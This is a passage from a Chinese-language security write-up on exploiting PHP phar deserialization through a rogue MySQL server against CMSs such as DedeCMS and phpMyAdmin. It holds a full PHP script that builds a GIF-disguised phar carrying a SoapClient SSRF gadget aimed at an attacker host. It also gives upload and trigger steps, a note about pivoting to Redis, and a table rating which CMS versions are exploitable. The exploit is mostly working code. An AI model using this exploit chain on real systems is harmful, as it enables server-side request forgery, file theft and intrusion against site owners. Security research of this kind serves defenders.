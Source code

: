我们需要先生成相应的phar

```
&lt;?php

class Control
`{`
    var $tpl;
    // $a = new SoapClient(null,array('uri'=&gt;'http://example.com:5555', 'location'=&gt;'http://example.com:5555/aaa'));
    public $dsql;

    function __construct()`{`
        $this-&gt;dsql = new SoapClient(null,array('uri'=&gt;'http://xxxx:5555', 'location'=&gt;'http://xxxx:5555/aaa'));
    `}`

    function __destruct() `{`
        unset($this-&gt;tpl);
        $this-&gt;dsql-&gt;Close(TRUE);
    `}`
`}`

@unlink("dedecms.phar");
$phar = new Phar("dedecms.phar");
$phar-&gt;startBuffering();
$phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub，增加gif文件头
$o = new Control();
$phar-&gt;setMetadata($o); //将自定义meta-data存入manifest
$phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar-&gt;stopBuffering();

?&gt;
```

然后我们可以直接通过前台上传头像来传文件，或者直接后台也有文件上传接口，然后将rogue mysql server来读取这个文件

```
phar://./dedecms.phar/test.txt
```

监听5555可以收到

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://images.seebug.org/content/images/2020/01/e95504be-605c-4b56-a4b1-6cf2ec62b4cf.png-w331s)[![](https://p2.ssl.qhimg.com/t0191c34395d952a2b5.png)](https://p2.ssl.qhimg.com/t0191c34395d952a2b5.png)

ssrf进一步可以攻击redis等拓展攻击面，就不多说了。

部分CMS测试结果

|CMS名|影响版本|是否存在mysql任意文件读取|是否有可控的MySQL服务器设置|是否有可控的反序列化|是否可上传phar|补丁
|------
|phpmyadmin|&lt; 4.8.5|是|是|是|是|[补丁](https://github.com/phpmyadmin/phpmyadmin/commit/828f740158e7bf14aa4a7473c5968d06364e03a2)
|Dz|未修复|是|是|否|None|None
|drupal|None|否(使用PDO)|否(安装)|是|是|None
|dedecms|None|是|是(ucenter)|是(ssrf)|是|None
|ecshop|None|是|是|否|是|None
|禅道|None|否(PDO)|否|None|None|None
|phpcms|None|是|是|是(ssrf)|是|None